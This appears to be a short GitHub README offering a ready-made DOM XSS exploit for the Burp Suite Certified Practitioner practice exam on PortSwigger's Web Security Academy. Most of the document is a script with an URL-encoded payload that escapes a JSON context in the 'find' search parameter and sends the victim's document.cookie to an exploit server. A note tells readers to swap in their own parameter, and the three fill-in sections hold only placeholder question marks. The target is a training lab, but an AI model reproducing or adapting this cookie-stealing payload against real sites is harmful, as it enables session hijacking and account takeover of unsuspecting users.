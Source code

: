 # BurpPracticeExamXSS

https://www.youtube.com/watch?v=fNoX_9v6-aY

Note: the search parameter changes from time to time in the practice exam, so make sure to replace the ?find parameter in the script below to what ever your parameter is

```
<script>
location='https://xxx.web-security-academy.net/?find=burpdomxss%22%2C%22test%22%3A(window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-xxx%252eweb-security-academy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D)%7D%2F%2F';
</script>
```

## Where exactly you must input your URL information and search parameter information into this script:

1  -- the place of the URL LAB:
```
?
```
2  -- The pace of the exploit URL server:
```
?
```
3  -- Where you must input your search parameter: 
```
?
```
